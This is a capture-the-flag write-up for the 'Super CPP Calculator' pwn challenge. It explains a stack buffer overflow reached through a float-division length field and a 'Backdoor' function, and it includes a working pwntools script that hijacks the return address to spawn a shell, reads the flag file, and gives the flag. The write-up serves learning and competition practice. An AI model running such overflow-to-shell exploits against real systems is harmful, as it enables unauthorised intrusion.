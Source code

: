 https://ctftime.org/event/2353

# Super CPP Calculator (pwn)

Funny Pwn

## Analysis

- `main` @ `0x4018E6`
    - Sets up a `Calculator`
    - In a loop lets us call either:
        - `Calculator::setnumber_floater`
        - `Calculator::setnumber_integer`
        - `Calculator::Backdoor`

- `Calculator::Backdoor` @ `0x40184C`
    - Allows us to write `*((int*)this + 6)` bytes to the stack from `stdin`
        - This lets us control the return address if `*((int*)this + 6)` is >= `0x408`

- `Calculator::setnumber_floater` @ `0x4015CA`
    - Sets `*((int*)this + 6)` equal to `A / B` where `A` and `B` are `float`s and `A` cannot have more than 1 decimal place

- `_Z3winv` @ `0x401740`
    - Simply calls `system("/bin/sh")`

## Solution

1) Use `Calculator::setnumber_floater` to set `*((int*)this + 6)` equal to `10000`
    - We do this by dividing `1.2` with `0.00012`
        - `1.2` has only one decimal place to ensure that we jump over the code that changes its value
2) Use `Calculator::Backdoor` to set the return addrss to `_Z3winv`

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./test", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="b *0x0000000000401716")
p = remote("34.30.75.212", 32059)

p.sendlineafter(b">", b"1")
p.sendlineafter(b"> ", b"1.2")
p.sendlineafter(b"> ", b"0.00012")

p.sendlineafter(b"> ", b"1337")
p.readline()
payload = b""
payload += b"A" * 0x408
payload += p64(elf.sym["_Z3winv"] + 8)
p.sendlineafter(b"> ", payload)

p.sendline(b"/bin/cat flag.txt")

log.success(p.readline().decode()) # DEAD{so_ez_pwn_hehe}
```

## Flag
`DEAD{so_ez_pwn_hehe}`

smiley 2024/07/27
